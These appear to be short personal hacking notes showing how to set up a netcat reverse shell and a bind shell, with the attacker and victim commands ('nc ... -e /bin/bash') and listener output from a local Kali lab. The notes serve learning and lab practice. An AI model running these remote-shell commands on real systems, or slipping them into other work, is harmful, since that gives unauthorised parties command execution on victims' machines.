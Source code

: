 ![[reverse_shell.png]]
## Forming a reverse shell
#### On attackbox - We opens 4444 port and victim connects to it
```python
┌──(hyok㉿kali)-[~/Documents/hacking_notes]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.1.8] from (UNKNOWN) [192.168.1.8] 52992
hostname
kali
whoami
hyok
```

#### On victim - 
```python
┌──(hyok㉿kali)-[~/Documents/hacking_notes]
└─$ nc 192.168.1.8 4444 -e /bin/bash
```

![[bind_shell.png]]

## Forming a bind shell
#### On victim - victim opens 4444 port and attackbox connects to it
```python
┌──(hyok㉿kali)-[~/Documents/hacking_notes]
└─$ nc -nvlp 4444 -e /bin/bash      
listening on [any] 4444 ...
connect to [192.168.1.8] from (UNKNOWN) [192.168.1.8] 46624
```

#### On attackbox 
```python
┌──(hyok㉿kali)-[~/Documents/hacking_notes]
└─$ nc 192.168.1.8 4444
hostname
kali
whoami
hyok
```